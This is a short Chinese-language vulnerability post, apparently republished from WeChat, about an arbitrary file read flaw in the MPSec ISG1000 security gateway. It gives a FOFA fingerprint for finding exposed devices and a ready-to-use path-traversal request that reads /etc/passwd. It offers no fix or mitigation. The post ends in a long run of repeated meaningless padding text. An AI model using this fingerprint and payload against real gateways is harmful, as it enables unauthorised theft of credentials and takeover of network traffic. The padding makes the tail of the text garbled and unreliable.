 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SdqFMG5YYMCUENt1c9fLvg)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2y58JwTCaZWib7mKLAOc0ibl7Ksb4Ffib5UtEpRvJ8dicEQrcw2JYekfCgl9y3ibpl3l5nONZmJaUraOag/640?wx_fmt=png)

**0x01 漏洞描述**  

MPSec ISG1000 系列上网行为管理网关是集终端接入认证、访问控制、上网行为审计 / 管控、智能安全防护、流量控制、VPN 等多种功能于一体的多业务网关和上网行为管理网关产品。其爆出的 MPSec ISG1000 安全网关任意文件读取漏洞可以使攻击者任意读取服务器敏感文件，从而得到账号密码等信息，登录网关控制内网全部流量。

**0x02 影响版本**

未知

**0x03 漏洞利用**

```
## FOFA指纹
title="迈普通信技术股份有限公司" && server="lighttpd/1.4.39"

## Payload
/webui/?g=sys_dia_data_down&file_name=../../../../../../../../../../../../etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2y58JwTCaZWib7mKLAOc0ibl7rmpW92z0OsuRMjGicOuaCMkuzFPjaHBkmibb2wibc3FibcQibia1Q9ZcIuGg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2y58JwTCaZWib7mKLAOc0ibl7yWM7UPiaKiaicqtXTQPZNnSic99MJwV67PETFvYFBgrfhuIibm4JywlxEKg/640?wx_fmt=png)

<凑字数>< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 ><凑字数>< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 ><凑字数>< 凑字数 >< 凑字数